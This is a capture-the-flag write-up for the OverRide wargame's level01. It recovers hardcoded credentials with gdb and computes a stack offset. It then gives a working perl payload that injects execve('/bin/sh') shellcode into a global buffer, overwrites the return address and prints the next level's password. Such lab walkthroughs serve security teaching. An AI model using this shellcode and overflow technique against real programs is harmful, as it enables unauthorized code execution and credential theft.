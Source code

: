 # level01

The program reads username and password from stdin and always prints incorrect password.

## Step 1 Find the right username and password
```assembly
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_name" level01
[...]
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_pass" level01
[...]
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
```
By disassembling these two verification function, we found the address of username and password.

```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

## Step 2 Calculate the offset to overwrite `eip`
```assembly
0x080484d8 <+8>:	sub    esp,0x60
[...]
0x0804856d <+157>:	lea    eax,[esp+0x1c]
0x08048571 <+161>:	mov    DWORD PTR [esp],eax
0x08048574 <+164>:	call   0x8048370 <fgets@plt>
0x08048579 <+169>:	lea    eax,[esp+0x1c]
0x0804857d <+173>:	mov    DWORD PTR [esp],eax
0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
```
```
bottom of                                                            top of
memory                                                               memory
         esp+0x1c          esp+0x60
<------     [ local variables ][ padding ][ ebp ][ return addr ]
                  64 + 4            8        4          4
top of                                                            bottom of
stack                                                                 stack
```
The username buffer is a global variable, we cannot use it to overwrite eip. According to disassembly, the binary stores password to a buffer which begins at esp+0x1c, so we need `0x60 - 0x1c + 0x8 + 0x4 = 0x50 (80)` to reach the return address.

## Step 3 Find a place to inject shellcode
```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address `0x0804a040 + 0x7` to access it.

## Step 4 Build the payload
```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n" . "A"x80 . pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
